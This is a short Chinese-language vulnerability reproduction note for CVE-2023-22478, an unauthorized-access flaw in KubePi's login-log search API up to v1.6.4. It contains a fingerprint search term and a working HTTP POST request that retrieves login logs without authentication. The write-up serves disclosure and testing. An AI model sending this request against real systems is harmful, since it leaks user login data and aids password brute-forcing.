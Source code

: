 # KubePi LoginLogsSearch 未授权访问漏洞 CVE-2023-22478

## 漏洞描述

KubePi LoginLogsSearch 方法下的接口存在未授权访问漏洞，攻击者通过漏洞可以未授权获取用户的登录日志信息，进一步爆破用户

## 漏洞影响

<a-checkbox checked>KubePi <= v1.6.4</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"kubepi"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1682440791240-01629ee9-05d4-4eff-a15f-aede8707d482.png)

补丁中对路由加了身份验证

![img](../../../.vuepress/public/img/1682440845494-1d058852-8474-4681-bd3e-6b1545000a75.png)

对应的接口为

![img](../../../.vuepress/public/img/1682440907690-5156d5b7-4e4d-4a33-9d79-7d489e0411a9.png)



验证POC

```php
POST /kubepi/api/v1/systems/login/logs/search?pageNum=1&&pageSize=10 HTTP/1.1
Content-Type: application/json

{}
```

![img](../../../.vuepress/public/img/1682440828484-ab47f1ea-42c1-4ec1-af79-0832a6e277ad.png)